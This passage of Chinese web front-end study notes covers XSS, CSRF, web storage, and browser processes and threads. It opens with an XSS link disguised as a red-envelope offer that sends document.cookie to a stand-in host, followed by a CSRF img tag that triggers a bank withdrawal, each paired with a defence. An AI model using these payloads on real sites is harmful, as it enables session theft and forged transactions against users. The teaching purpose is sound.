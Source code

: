 ```html
<a href="#" onclick=`window.location=http://abc.com?cookie=${docuemnt.cookie}`>领取红包</a>
```

可通过 HttpOnly 防止 js 操作 Cookie

CSRF：不同域名下使用地址

```html
<img  src = "http://www.bank.com/withdraw?user=shenyang&total=777">
```

这时候会提交表单。可通过增加其他校验手段解决。

#### SessionStorage, LocalStorage

SessionStorage, LocalStorage, Cookie 这三者都可以被用来在浏览器端存储数据，而且都是字符串类型的键值对。

### Web Storage

SessionStorage 和 LocalStorage 都是本地存储，不会被发送到服务器上。同时空间比 Cookie 大很多，一般支持 5-10M

http://dev-test.nemikor.com/web-storage/support-test/

## 进程与线程

> 进程和线程都是一个时间段的描述，是 CPU 工作时间段的描述

- 进程 process：进程就是时间总和=执行环境切换时间+程序执行时间-->CPU 加载执行环境->CPU 执行程序->CPU 保存执行环境
- 线程 thread：线程也是时间总和=执行环境切换时间（共享进程的）+程序模块执行时间-->CPU 加载执行环境（共享进程的）->CPU 执行程序摸块->CPU 保存执行环境（共享进程的）
- 进程和线程都是描述 CPU 工作的时间段，线程是更细小的时间段。

### 进程

> 程序的一次执行，它占有一片独有的内存空间， 是操作系统执行的基本单元

- 一个程序可以同时允许运行多个进程， 那么就是**多进程**
- 一个进程内的数据可以供其中的多个线程直接共享， 多个进程之间的数据是不能直接共享的

浏览器进程

- Browser 进程:
  - 浏览器的主进程,负责浏览器界面的显示,和各个页面的管理,
  - 浏览器中所有其他类型进程的祖先,负责其他进程的的创建和销毁
  - 只有一个
- Renderer 进程:
  - 网页渲染进程,负责页面的渲染,可以有多个
  - 当然渲染进程的数量不一定等于你开打网页的个数
- NPAPI 插件进程
- Pepper 插件进程
- GPU 进程
- 移动设备的浏览器可能不太一样:
  - Android 不支持插件,所以就没有插件进程
  - GPU 演化成了 Browser 进程的一个线程
  - Renderer 进程演化成了操作系统的一个服务进程,它仍然是独立的

### 线程
